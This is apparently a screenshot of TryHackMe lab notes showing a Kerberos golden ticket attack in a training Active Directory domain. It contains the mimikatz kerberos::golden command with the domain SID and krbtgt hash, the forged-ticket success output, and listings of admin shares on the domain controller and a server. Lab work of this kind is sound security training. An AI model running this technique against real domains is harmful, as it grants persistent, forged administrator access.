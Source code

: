 ```plain
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Lifetime  : 6/17/2024 3:47:03 PM ; 6/18/2024 1:47:03 AM ; 6/24/2024 3:47:03 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'fake4user @ za.tryhackme.loc' successfully submitted for current session
```

```powershell
klist
dir \\thmdc.za.tryhackme.loc\C$\Users


    Directory: \\thmdc.za.tryhackme.loc\C$\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/11/2024   8:54 PM                Administrator
d-----        4/27/2022   8:22 AM                Administrator.TRYHACKME
d-r---        3/21/2020   8:25 PM                Public
d-----        3/21/2020   8:52 PM                vagrant

```

```powershell
# mimikatz 
kerberos::golden /admin:fake4user /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```

```powershell
klist
dir \\THMSERVER1.za.tryhackme.loc\C$\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/30/2022  11:07 AM                inetpub
d-----        9/15/2018   8:19 AM                PerfLogs
d-r---        4/30/2022  11:07 AM                Program Files
d-----        4/30/2022  11:07 AM                Program Files (x86)
d-----        4/27/2022   9:24 PM                Python310
d-----        4/30/2022  11:17 AM                Temp
d-----        4/25/2022   8:59 PM                tmp
d-r---        6/30/2022  11:08 PM                Users
d----l        4/25/2022   8:57 PM                vagrant
d-----        4/27/2022   9:24 PM                Windows
-a----        4/30/2022   3:45 PM           7743 auto-login.ps1                                                                    
-a----         1/4/2022   7:47 AM            103 delete-vagrant-user.ps1
-a----         3/2/2022   8:32 PM            718 thm-network-setup.ps1

```
